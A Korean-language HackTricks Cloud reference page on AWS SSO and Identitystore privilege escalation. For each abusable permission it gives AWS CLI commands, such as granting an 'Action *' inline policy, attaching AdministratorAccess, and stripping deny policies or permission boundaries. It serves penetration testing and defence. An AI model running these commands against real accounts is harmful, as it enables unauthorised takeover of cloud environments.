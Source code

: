 # AWS - SSO 및 Identitystore 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 해킹 기법을 공유하세요.

</details>

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**기본적으로**, **관리 계정**의 권한을 가진 **사용자**만 IAM Identity Center에 액세스하고 제어할 수 있습니다.\
다른 계정의 사용자는 **위임된 관리자**인 경우에만 허용할 수 있습니다.\
[자세한 내용은 문서를 확인하세요.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~비밀번호 재설정~~

이와 같은 경우 권한 상승을 위한 쉬운 방법은 사용자 비밀번호를 재설정할 수 있는 권한을 가지는 것입니다. 불행히도 사용자의 이메일에 비밀번호 재설정을 위한 이메일을 보낼 수 있는 방법만 있으므로 사용자의 이메일에 액세스해야 합니다.

### `identitystore:CreateGroupMembership`

이 권한을 사용하면 사용자를 그룹에 설정하여 그룹이 가진 모든 권한을 상속받을 수 있습니다.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신이 통제하는 사용자에게 부여된 권한 세트에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신이 통제하는 사용자에게 부여된 권한 세트에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신이 통제하는 사용자에게 부여된 허가 집합에 추가 권한을 부여할 수 있습니다.

{% hint style="warning" %}
이 경우 이러한 권한을 악용하려면 영향을 받을 모든 계정에 있는 **고객 관리 정책의 이름을 알아야 합니다**.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

이 권한을 가진 공격자는 계정에 사용자에게 권한 집합을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

사용자에게 할당된 역할 이름에 대한 STS 단기 자격증명을 반환합니다.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

그러나, 어떻게 얻을 수 있는지 잘 모르는 액세스 토큰이 필요합니다 (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 집합에서 AWS 관리 정책과의 연결을 제거할 수 있습니다. **관리 정책 (거부 정책)를 분리함으로써** 더 많은 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 집합에서 고객 관리 정책과의 연결을 제거할 수 있습니다. **관리 정책 (거부 정책)를 분리**함으로써 더 많은 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

이 권한을 가진 공격자는 허가 집합에서 인라인 정책의 권한을 제거할 수 있습니다. 인라인 정책을 분리함으로써 더 많은 권한을 부여할 수 있습니다 (거부 정책).
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 Permission Boundary를 제거할 수 있습니다. Permission Boundary에서 제공된 제한을 제거함으로써 권한 세트에 더 많은 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
